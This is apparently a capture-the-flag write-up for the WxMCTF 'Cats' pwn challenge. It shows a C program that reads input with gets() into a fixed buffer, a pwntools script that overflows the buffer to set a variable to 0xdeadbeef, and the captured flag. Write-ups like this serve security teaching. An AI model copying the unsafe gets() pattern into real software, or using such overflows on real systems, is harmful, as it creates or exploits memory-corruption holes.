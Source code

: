 # WxMCTF Pwn 1 - Cats
> I had to hide my secret so any MGCI cat-haters will never find it! Do you like cats?

## About the Challenge
We were given a source code (You can download the file [here](cats_mAxjvpN.c)) and an instance. Here is the content of the source code
```c
#include <stdio.h>
#include <stdlib.h>

void cats() {
    char hmm[40];

    puts("Do you like cats?");
    int trustNoOne = 0;
    gets(hmm);

    if(trustNoOne == 0xdeadbeef) {
        puts("hmmm... alright, here's my secret:\n");
        const char* flag = getenv("FLAG");
        if (flag == NULL) {
            printf("Flag not found!\n");
            exit(0);
        }
    printf("%s\n",flag);
    } else {
        puts(">:( you're not allowed to see my secret!");
    }
}

int main() {
    setvbuf(stdout, NULL, 2, 0);
    cats();
}
```

We need to change the value of the `trustNoOne` variable from `0` to `0xdeadbeef` to get the flag

## How to Solve?
To get the flag we need to exploit using buffer overflow to overwrite the `trustNoOne` variable

```python
#!/usr/bin/env python3
from pwn import *
p = remote('b03c9f7.678470.xyz', 32756)
payload = b'A' * 60 + p32(0xdeadbeef)
p.sendlineafter(b'Do you like cats?\n', payload)
p.interactive()
```

The script constructs a payload consisting of 60 bytes of the ASCII character `A` followed by a little-endian representation of the hexadecimal value `0xdeadbeef`. Run the instance and then run the program, and you will get the flag


[Image extracted text: Opening connection
to cdc0350.678470.xyz
port 31586:
Done
[*] Switching to
interactive mode
nmmm
alright,
here
my
secret:
Wxmctf{c@ts_@R3_th3_B3St}
[*1
Got
EOF
while reading in
interactive]


```
wxmctf{c@t$_@R3_th3_B3$t}
```